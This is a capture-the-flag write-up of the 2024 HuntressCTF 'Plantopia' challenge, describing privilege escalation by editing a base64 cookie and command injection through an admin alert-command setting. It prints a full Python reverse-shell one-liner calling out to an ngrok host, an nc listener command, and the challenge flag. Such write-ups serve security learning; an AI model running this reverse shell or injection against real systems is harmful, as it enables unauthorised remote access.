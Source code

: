 ```yaml
---
title: 2024 HuntressCTF - Plantopia
date: 2024-10-22T07:00:00-07:00
tags:
  - 
image: /2024-HuntressCTF/Plantopia.png
---
```


### Summary
```
Plantopia is our brand new, cutting edge plant care management website! Built for hobbiests and professionals alike, it's your one stop shop for all plant care management.

Please perform a penetration test ahead of our site launch and let us know if you find anything.

Username: testuser
Password: testpassword

```

### Steps

I logged into the application and noticed I had access to swagger and could perform minimal actions with the current user.  After a few minutes, I looked at the cookie assigned to me after logging in.  
```
auth=dGVzdHVzZXIuMC4xNzI5NjM2NTUw
```

This is a base64 encoded cookie which decodes as `testuser.0.1729636550`.  I changed the `0` to a `1` and encoded as base64 giving me a result of `dGVzdHVzZXIuMS4xNzI5NjM2NTUw`. I updated the cookie in my browser and refreshed the website. 

Upon doing that, I was given admin access!

![](/static/2024-HuntressCTF/p1.png)

With admin access I explored the admin panel and found there is one area where you can set an alert and run a bash command.

![](/static/2024-HuntressCTF/p2.png)

I would not able to remove `/usr/sbin/sendmail -t` as this was required.  I tested several command injection techniques but was not getting anywhere.  Next, I went over to `revshell.com` and started to create a python reverse shell.  Python was selected because of the framework of the website.  I also use Ngrok to catch the reverse shell and send it to a nc listener locally.  

![](/static/2024-HuntressCTF/p3.png)

You'll see I was issued this tcp address: `0.tcp.us-cal-1.ngrok.io:14629`.  In another terminal, I started a nc listener with `nc -nlvp 8080`.

Going back to revshell.com, I updated the host and port and got this reverse shell.
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.us-cal-1.ngrok.io",14629));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Within the vulnerable website, I input `&&` and pasted the reverse shell and saved the settings. 

![](/static/2024-HuntressCTF/p4.png)

At this time, no reverse shell was sent to my listener so I figured I would need to trigger it somehow. 

While exploring the swagger documents, I noticed an api call `/api/admin/settings`.  I copied my cookie into the Authorization field and updated the alert_command with the revers shell.  However, the request failed and I realized it was because the `"`'s were not escaped for the json request.  I updated the payload to be like this:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"0.tcp.us-cal-1.ngrok.io\",14629));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'
```

This request saved the settings and there was one more API call to make which was to `/api/admin/sendmail`.

![](/static/2024-HuntressCTF/p5.png)

I had a feeling this reverse shell worked because the website hung for a moment.  Looking at the terminal window, I see 1 open connection!

![](/static/2024-HuntressCTF/p6.png)

I then switched to my other terminal window with nc and noticed I had a reverse shell.

![](/static/2024-HuntressCTF/p7.png)


Flag: flag{c29c4d53fc432f7caeb573a9f6eae6c6}